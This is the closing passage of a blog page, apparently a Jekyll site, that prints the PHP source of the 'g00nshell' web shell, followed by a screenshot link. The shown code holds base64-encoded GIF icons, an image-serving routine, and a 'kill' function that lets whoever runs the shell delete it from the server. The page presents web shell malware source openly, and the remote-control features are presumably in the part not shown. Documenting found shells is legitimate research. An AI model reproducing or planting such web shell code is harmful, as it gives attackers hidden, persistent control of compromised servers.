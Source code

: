  "b//2b/zGb/mWb/Zmb/M2b/AGbM/2bMzGbMmWbMZmbMM2bMAGaZ/2aZzGaZmWaZZmaZM2aZAGZm/2ZmzGZmmWZmZmZm" .
  "M2ZmAGYz/2YzzGYzmWYzZmYzM2YzAGYA/2YAzGYAmWYAZmYAM2YAADP//zP/zDP/mTP/ZjP/MzP/ADPM/zPMzDPMmT" .
  "PMZjPMMzPMADOZ/zOZzDOZmTOZZjOZMzOZADNm/zNmzDNmmTNmZjNmMzNmADMz/zMzzDMzmTMzZjMzMzMzADMA/zMA" .
  "zDMAmTMAZjMAMzMAAAD//wD/zAD/mQD/ZgD/MwD/AADM/wDMzADMmQDMZgDMMwDMAACZ/wCZzACZmQCZZgCZMwCZAA" .
  "Bm/wBmzABmmQBmZgBmMwBmAAAz/wAzzAAzmQAzZgAzMwAzAAAA/wAAzAAAmQAAZgAAM+4AAN0AALsAAKoAAIgAAHcA" .
  "AFUAAEQAACIAABEAAADuAADdAAC7AACqAACIAAB3AABVAABEAAAiAAARAAAA7gAA3QAAuwAAqgAAiAAAdwAAVQAARA" .
  "AAIgAAEe7u7t3d3bu7u6qqqoiIiHd3d1VVVURERCIiIhEREQAAACH+TlRoaXMgYXJ0IGlzIGluIHRoZSBwdWJsaWMg" .
  "ZG9tYWluLiBLZXZpbiBIdWdoZXMsIGtldmluaEBlaXQuY29tLCBTZXB0ZW1iZXIgMTk5NQAh+QQBAAAkACwAAAAAFA" .
  "AWAAAImQBJCCTBqmDBgQgTDmQFAABDVgojEmzI0KHEhBUrWrwoMGNDihwnAvjHiqRJjhX/qVz5D+VHAFZiWmmZ8BGH" .
  "ji9hxqTJ4ZFAmzc1vpxJgkPPn0Y5CP04M6lPEkCN5mxoJelRqFY5TM36NGrPqV67Op0KM6rYnkup/gMq1mdamC1tdn" .
  "36lijUpwjr0pSoFyUrmTJLhiTBkqXCgAA7",
  "sound"=&gt;"R0lGODlhFAAWAMIAAP////8zM8z//8zMzJmZmWYAADMzMwAAACH+TlRoaXMgYXJ0IGlzIGluIHRoZSBwdWJsaWMgZG" .
  "9tYWluLiBLZXZpbiBIdWdoZXMsIGtldmluaEBlaXQuY29tLCBTZXB0ZW1iZXIgMTk5NQAh+QQBAAACACwAAAAAFAAW" .
  "AAADayi63P4wNsNCkOocYVWPB7FxFwmFwGh+DZpynndpNAHcW9cVQUj8tttrd+G5hMINT7A0BpE4ZnF6hCqn0iryKs" .
  "0SDN9v0tSc0Q4DQ1SHFRjeBrQ6FzNN5Co2JD4YfUp7GnYsexQLhBiJigsJADs=",
  "script"=&gt;"R0lGODlhFAAWAMIAAP///8z//5mZmTMzMwAAAAAAAAAAAAAAACH+TlRoaXMgYXJ0IGlzIGluIHRoZSBwdWJsaWMgZG" .
  "9tYWluLiBLZXZpbiBIdWdoZXMsIGtldmluaEBlaXQuY29tLCBTZXB0ZW1iZXIgMTk5NQAh+QQBAAABACwAAAAAFAAW" .
  "AAADZTi6vPEwDECrnSO+aTvPEddVIrhVBJCSF8QRMIwOBE2fVLrmcYz3O4pgKCDgVMgR0SgZOYVM0dNS/AF7gGy1me" .
  "16v9vXNdYNf89es2os00bRcDW7DVDDwe87fjMg+v9DNxBzYw8JADs=");
  header('Content-type: image/gif');
  echo base64_decode($images[$img]);
  die();
}
function kill(){ // Shell deleter function
  style();
  echo("&lt;form  method='post'&gt;");
  echo("Type 'confirm' to kill the shell:&lt;br&gt;\n&lt;input type='text' name='ver' action='?act=kill'&gt;");
  echo("&lt;input type='submit' value='Delete'&gt;");
  echo("&lt;/form&gt;");
  if($_POST['ver'] == "confirm"){
    $self = basename($_SERVER['PHP_SELF']);
    if(unlink($self)){echo("Deleted");}
    else{echo("Failed");}
  }
}
die();
?>
{% endhighlight %}


### g00nshell Script Screenshot

[<img src="{{ site.baseurl }}/wp-content/uploads/2014/01/g00nshell-1024x491.png" alt="g00nshell script screenshot" width="604" height="289" class="aligncenter size-large wp-image-336" />][1]

 [1]: {{ site.baseurl }}/wp-content/uploads/2014/01/g00nshell.png